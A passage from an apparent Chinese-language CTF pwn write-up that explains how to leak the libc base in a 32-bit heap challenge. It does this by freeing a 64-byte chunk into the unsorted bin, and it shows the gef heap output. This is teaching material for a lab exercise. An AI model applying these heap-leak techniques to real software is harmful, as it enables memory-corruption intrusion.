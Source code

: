 ## 利用

### 泄露libc

这题附件给了libc，而且分析也没有后门函数，所以首先肯定需要泄露libc基址。参考WP有以下两种方式泄露libc基址

1. 申请unsortbin范围的堆块，释放后重新申请到，即可打印出main_arena地址
2. puts出got表地址

#### unsortbin泄露libc基址

32位程序最大申请的fastbin的数据大小为60，所以我们申请一个64字节大小，然后free掉，就能让这个堆块加入到unsortbin的链表中。不过在free之前，还需要申请一个堆块，任意大小即可，仅仅是为了将刚才申请的堆块和topchunk隔开，防止合并，这里我们采用32字节的堆块进行隔离。所以步骤如下：

1. 申请一个64字节的堆块
2. 申请一个32字节的堆块
3. 释放第一个堆块

```python
gef➤  heap chunks
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     00 00 00 00 18 b0 04 08 00 00 00 00 49 00 00 00    ............I...]
Chunk(addr=0x804b018, size=0x48, flags=PREV_INUSE)
    [0x0804b018     b0 27 fb f7 b0 27 fb f7 00 00 00 00 00 00 00 00    .'...'..........]
Chunk(addr=0x804b060, size=0x10, flags=)
    [0x0804b060     2b 86 04 08 70 b0 04 08 00 00 00 00 29 00 00 00    +...p.......)...]
Chunk(addr=0x804b070, size=0x28, flags=PREV_INUSE)
    [0x0804b070     31 0a 00 00 00 00 00 00 00 00 00 00 00 00 00 00    1...............]
Chunk(addr=0x804b098, size=0x20f70, flags=PREV_INUSE)  ←  top chunk
gef➤  heap bins
[+] No Tcache in this version of libc
──────────────────────────────────────────────────────────────────────────────── Fastbins for arena 0xf7fb2780 ────────────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x8]  ←  Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE) 
Fastbins[idx=1, size=0x10] 0x00
Fastbins[idx=2, size=0x18] 0x00
Fastbins[idx=3, size=0x20] 0x00
Fastbins[idx=4, size=0x28] 0x00
Fastbins[idx=5, size=0x30] 0x00
Fastbins[idx=6, size=0x38] 0x00
───────────────────────────────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ─────────────────────────────────────────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x804b010, bk=0x804b010
 →   Chunk(addr=0x804b018, size=0x48, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
────────────────────────────────────────────────────────────────────────────── Small Bins for arena 'main_arena' ──────────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
────────────────────────────────────────────────────────────────────────────── Large Bins for arena 'main_arena' ──────────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```
